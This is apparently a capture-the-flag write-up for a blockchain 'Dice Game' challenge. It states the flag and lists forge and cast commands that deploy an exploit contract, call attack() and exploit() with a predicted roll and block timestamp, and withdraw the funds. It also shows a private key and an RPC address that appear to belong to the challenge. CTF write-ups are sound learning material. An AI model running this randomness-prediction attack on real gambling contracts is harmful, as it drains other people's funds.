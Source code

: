 ```yaml
---
title: "Dice Game"
categories: Miscellaneous
tags: 
  - Blockchain
draft: false
completedDuringEvent: true
submitted: true
flags: flag: RECURSION{pr0vably_f41r_d1ce_g4me_w1th_smart_c0ntr4cts}
---
```

> This is a blockchain-based **dice game** that simulates traditional gambling mechanics using smart contracts. Players can start a game, place wagers, and roll virtual dice with outcomes ranging from 1 to 1000. The game is designed to be provably fair by utilizing a combination of user-generated and server-generated seeds to compute each roll deterministically.

by `ztz`

---

```bash
$ forge create --broadcast --rpc-url http://103.87.66.171:8545/k16a8f6i8r9i5n7z --private-key 0xb1a96be28556d6721d3a5e0eb5d4973f1a4ba3e0754b99f1d6dd85134d57680e ./src/Exploit.sol:Exploit --constructor-args 0xF17C373965C4e66c8eaD5E24B41ABaFeA37e8E83 0x1c4107E0C5AF7Ff7e5fF1D8aC02b7A19e7Cd6379

$ cast send --private-key 0xb1a96be28556d6721d3a5e0eb5d4973f1a4ba3e0754b99f1d6dd85134d57680e --value 16ether 0x4bd657ac6a6C8908AEc9EAD37860fAba25700Cda --rpc-url http://103.87.66.171:8545/k16a8f6i8r9i5n7z
$ cast send 0x4bd657ac6a6C8908AEc9EAD37860fAba25700Cda "attack()" --private-key 0xb1a96be28556d6721d3a5e0eb5d4973f1a4ba3e0754b99f1d6dd85134d57680e --rpc-url http://103.87.66.171:8545/k16a8f6i8r9i5n7z
$ cast block latest --rpc-url http://103.87.66.171:8545/k16a8f6i8r9i5n7z
$ cast send 0x4bd657ac6a6C8908AEc9EAD37860fAba25700Cda "exploit(uint256, uint256)" 6 1743917106 --private-key 0xb1a96be28556d6721d3a5e0eb5d4973f1a4ba3e0754b99f1d6dd85134d57680e --rpc-url http://103.87.66.171:8545/k16a8f6i8r9i5n7z
$ cast send 0x4bd657ac6a6C8908AEc9EAD37860fAba25700Cda "withdraw()" --private-key 0xb1a96be28556d6721d3a5e0eb5d4973f1a4ba3e0754b99f1d6dd85134d57680e --rpc-url http://103.87.66.171:8545/k16a8f6i8r9i5n7z
```
